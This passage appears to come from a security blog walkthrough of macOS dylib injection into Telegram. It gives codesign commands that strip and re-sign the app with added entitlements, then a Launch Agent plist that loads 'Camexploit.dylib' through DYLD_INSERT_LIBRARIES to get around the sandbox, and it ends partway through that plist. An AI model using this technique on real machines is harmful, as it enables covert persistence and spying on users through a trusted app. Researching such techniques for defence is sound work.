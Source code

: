 ```
    <key>com.apple.security.personal-information.location</key>
    <true/>
</dict>
</plist>
```

&nbsp;

Let's remove `telegram` app signing:

```
codesign --remove-signature --no-strict /Applications/Telegram.app
```

&nbsp;

Now, Let's sign it using our `Entitlements`:

```
codesign --force --deep --sign "Developer ID" --entitlements entit.plist /Applications/Telegram.app
```

&nbsp;

Finally, Let's take a look at the signing information:

```
codesign -dv --entitlements - /Applications/Telegram.app
```

&nbsp;

&nbsp;

![](/assets/images/e9326812e03e6546697d96f8cdbec4b8)

&nbsp;

We can see clearly that the `sandbox` is activated and if we open the activity monitor app we can see it clearly as the following:

&nbsp;

![](/assets/images/6291fb4d72ee945334b604da3fa56ea6)

&nbsp;

Now, Oppiste to the exploitation way we did in the first part without the `sandbox`, We are going to use the `Launch Agent` to

do tho, So we can bypass the `sandbox`. Here is the agent `plist`:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
       <key>Label</key>
        <string>com.telegram.launcher</string>
        <key>RunAtLoad</key>
        <true/>
        <key>EnvironmentVariables</key>
        <dict>
          <key>DYLD_INSERT_LIBRARIES</key>
          <string>/Users/labatrixteam/telegram/Camexploit.dylib</string>
        </dict>
        <key>ProgramArguments</key>
        <array>
  <string>/Applications/Telegram.app/Contents/MacOS/Telegram</string>
        </array>
        <key>StandardOutPath</key>
```